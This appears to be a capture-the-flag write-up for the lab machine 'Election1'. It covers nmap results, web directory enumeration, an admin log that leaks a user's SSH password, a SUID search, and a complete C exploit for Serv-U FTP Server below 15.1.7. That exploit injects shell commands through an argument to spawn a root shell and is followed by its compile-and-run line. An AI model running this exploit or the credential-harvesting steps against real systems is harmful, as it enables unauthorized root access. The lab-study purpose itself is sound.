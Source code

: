 # Election1

***

IP=192.168.222.211

## NMAP

| Port Number | Service |
| ----------- | ------- |
| 22          | SSH     |
| 80          | HTTP    |

```perl
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20d1ed84cc68a5a786f0dab8923fd967 (RSA)
|   256 7889b3a2751276922af98d27c108a7b9 (ECDSA)
|_  256 b8f4d661cf1690c5071899b07c70fdc0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```txt
election
phpmyadmin
```

### /election/

```bash
/media
/themes
/data
/admin
/index.php
/lib
/js
/languages
/card.php
```

#### /admin

```bash
/img/                
/plugins/             
/index.php            
/css/                 
/ajax/                
/live.php             
/js/                  
/components/          
/logout.php            
/inc/                 
/logs/                
/logs.php              
/dashboard.php          
/guru.php            
```

**/logs**

```bash
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-10-27 22:46:10]  has been logged out from Unknown IP.
```

ssh --> `love:P@$$w0rd@123`

## PrivEsc

### SUID

```bash
find / -perm -4000 2>/dev/null | grep -v snap
```

/usr/local/Serv-U/Serv-U

#### Serv-U FTP Server < 15.1.7 - Local Privilege Escalation

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

```bash
gcc exploit.c -o exploit && ./exploit
```
